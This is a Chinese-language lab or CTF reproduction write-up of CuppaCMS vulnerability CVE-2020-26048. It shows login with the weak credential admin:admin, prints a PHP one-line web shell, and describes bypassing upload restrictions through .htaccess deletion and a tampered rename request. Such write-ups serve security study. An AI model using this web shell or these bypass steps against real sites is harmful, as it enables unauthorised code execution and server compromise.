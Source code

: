 # CuppaCMS文件上传漏洞

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2020-26048                                               |
| 漏洞名称 | CuppaCMS文件上传                                             |
| 漏洞评级 | 高危                                                         |
| 影响范围 | CuppaCMS 2019-11-12之前版本                                  |
| 漏洞描述 | CuppaCMS 2019-11-12之前版本存在安全漏洞，攻击者可利用该漏洞在图像扩展内上传恶意文件，通过使用文件管理器提供的重命名函数的自定义请求，可以将图像扩展修改为PHP，从而导致远程任意代码执行 |
|          |                                                              |



### 1.1、漏洞描述

**CuppaCMS是一套内容管理系统（CMS）。 CuppaCMS 2019-11-12之前版本存在安全漏洞，攻击者可利用该漏洞在图像扩展内上传恶意文件，通过使用文件管理器提供的重命名函数的自定义请求，可以将图像扩展修改为PHP，从而导致远程任意代码执行。**

### 1.2、漏洞等级

高危

### 1.3、影响版本

CuppaCMS 2019-11-12之前版本

### 1.4、漏洞复现

#### 1、基础环境

[环境地址](https://yunjing.ichunqiu.com/result?title=CVE-2020-26048%2520)

---

启动后，访问即可看到一个登陆框

![image-20231224150208818](./imgs/image-20231224150208818.png)

登录框存在弱口令`admin:admin`

在`Settings`里发现可以修改允许文件的后缀名，直接添加一个`*.php`

![image-20231224151138302](./imgs/image-20231224151138302.png)

然后找到`File Manager`文件管理

![image-20231224150654427](./imgs/image-20231224150654427.png)

#### 2、漏洞验证

上传php后门文件

![image-20231224151341001](./imgs/image-20231224151341001.png)

```php
<?php @eval($_POST['a']);?>
```

上传成功

![image-20231224151947447](./imgs/image-20231224151947447.png)

访问php文件，看能否解析php，结果显示被禁止，说没有权限访问这个资源

![image-20231224152050760](./imgs/image-20231224152050760.png)

回到文件管理器，猜测可能是`.htaccess`文件加了限制，发现在文件管理器能删除文件，就把.htaccess文件删了，再去访问



![image-20231224152235716](./imgs/image-20231224152235716.png)

验证木马是否可利用

![image-20231224152510835](./imgs/image-20231224152510835.png)

获取flag

![image-20231224152712430](./imgs/image-20231224152712430.png)

以上是通过删除`.htaccess`文件来达到绕过

---

以下通过其他方式进行绕过

在没有修改setting配置的情况下，上传php文件，显示文件类型不允许

![image-20231224161215638](./imgs/image-20231224161215638.png)

修改文件名，文件类型

![image-20231224161335496](./imgs/image-20231224161335496.png)

上传成功！

对上传的文件进行重命名操作

![image-20231224161419715](./imgs/image-20231224161419715.png)

![image-20231224161438561](./imgs/image-20231224161438561.png)

修改后发现还是强加了`.png`后缀

![image-20231224161606531](./imgs/image-20231224161606531.png)

查看数据包

![image-20231224161659705](./imgs/image-20231224161659705.png)

修改重命名的数据包



![image-20231224161853104](./imgs/image-20231224161853104.png)

这个时候就进行了一个绕过，成功上传了`.php`文件

![image-20231224161949284](./imgs/image-20231224161949284.png)

但是访问后还是显示被禁止

![image-20231224162013922](./imgs/image-20231224162013922.png)

这里是因为`.htaccess`的限制

当前目录下的所有文件都收到`.htaccess`的影响

![image-20231224162106089](./imgs/image-20231224162106089.png)

所以，可以将文件上传到上一级目录

当前目录下有一个`a.php`，但是由于权限问题，不能正常访问，修改刚才重命名的数据包，上传到上一个目录

![image-20231224162241062](./imgs/image-20231224162241062.png)

![image-20231224162310478](./imgs/image-20231224162310478.png)

![image-20231224162341963](./imgs/image-20231224162341963.png)

![image-20231224162409862](./imgs/image-20231224162409862.png)